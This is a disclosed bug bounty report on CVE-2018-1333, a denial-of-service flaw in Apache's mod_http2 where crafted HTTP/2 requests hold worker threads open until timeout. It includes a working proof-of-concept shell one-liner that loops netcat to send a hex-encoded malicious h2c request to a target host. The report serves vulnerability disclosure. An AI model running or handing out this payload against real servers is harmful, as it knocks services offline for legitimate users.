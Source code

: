 # DoS for HTTP/2 connections by crafted requests (CVE-2018-1333)

## Report Details
- **Report ID**: 384839
- **URL**: https://hackerone.com/reports/384839
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-07-21T02:41:14.091Z
- **Disclosed**: 2018-10-28T15:54:21.546Z

## Reporter
- **Username**: cy1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
mod_http2 can be tricked by specially crafted requests to hold server resources longer than necessary.

A simple demonstration of this for a server with h2c enabled is as follows:
for x in `seq 0 500`; do echo 505249202a20485454502f322e300d0a0d0a534d0d0a0d0a00001204000000000000000000006400044000000000020000000000001b0104000000018284864187089d5c0b8178ff7a8825b650c3abb6f2e053032a2f2a00001b0105000000019a84864187089d5c0b8178ff7a880000000000000000 | xxd -r -p | nc hostname port 2>&1 >/dev/null & done

## Impact

Certain crafted HTTP2 requests identified with afl-fuzz can cause Apache worker threads to stay open waiting for data until a timeout. A typical configuration has a 1 minute timeout with 150 request workers. This means an attacker can effectively make the service unresponsive to legitimate users with a slow rate (3-4 requests/second) of short crafted requests.

## Attachments
No attachments
